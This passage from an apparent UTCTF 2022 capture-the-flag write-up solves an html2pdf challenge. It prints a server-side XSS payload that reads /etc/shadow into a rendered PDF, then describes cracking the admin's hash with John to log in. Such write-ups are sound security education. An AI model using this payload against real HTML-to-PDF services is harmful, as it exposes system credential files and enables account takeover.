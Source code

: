So, execute a server-side XSS which will grab the `etc/shadow` file - good to know we have some nice permissions to be able to access it. The output will be presented in the PDF.

```html
<script>
    x = new XMLHttpRequest();
    //x.open("GET","file:///etc/passwd");
    x.open("GET","file:///etc/shadow");
    x.send();
    x.onload = function(){document.write(this.responseText);}
</script>
```

![html2pdf etc/shadow](/assets/images/utctf2022/html2pdf/HTML2PDF_etcshadow.png) 

The username is now known: WeakPasswordAdmin. Now, we simply need to bruteforce the hash of WeakPasswordAdmin's password using something like John. Let the hash cracker do its thing and it should return "sunshine" as the password. Log in with those credentials and get yourself the flag:

![html2pdf flag](/assets/images/utctf2022/html2pdf/HTML2PDF_flag.png) 

# Sigma
